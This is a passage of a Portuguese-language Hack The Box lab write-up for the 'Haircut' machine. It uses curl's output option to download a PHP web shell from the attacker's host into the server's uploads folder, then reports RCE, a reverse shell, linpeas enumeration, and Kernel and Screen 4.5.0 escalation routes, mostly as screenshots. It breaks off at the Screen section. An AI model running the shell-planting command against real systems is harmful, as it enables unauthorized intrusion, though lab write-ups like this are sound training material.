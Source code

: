 Verificamos como funciona a questao do output no curl

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_chelp.png)

Montamos nosso payload para ser salvo no /uploads

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_s.png)

## Upando o shell.php no servidor

> -o /var/www/html/uploads/shell.php http://10.10.16.119/shell.php

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_up.png)

## Testando RCE

Agora vamos testar RCE no servidor, vamos fazer pelo burp mesmo. Uma vez que eu sei que é só mudar a URL pra /uploads e o parâmetro cmd

Pronto! Temos RCE

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_rce.png)

## Reverse shell

Bom, agora é só pegar um reverse shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_up1.png)

# Escalação de privilégio

Uma vez que já temos acesso à máquina, vamos iniciar a fase de escalação de privilégio

Rodaremos o `linpeas` pq eu gosto das cores que aparece nele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_linpeas.png)

Passando e rodando na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_linpeas1.png)

Encontramos dois modos de escalar na máquina

Através de `Kernel` e pelo `Screen`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_priv.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-haircut/H_priv1.png)

## 1º Modo - Screen 4.5.0
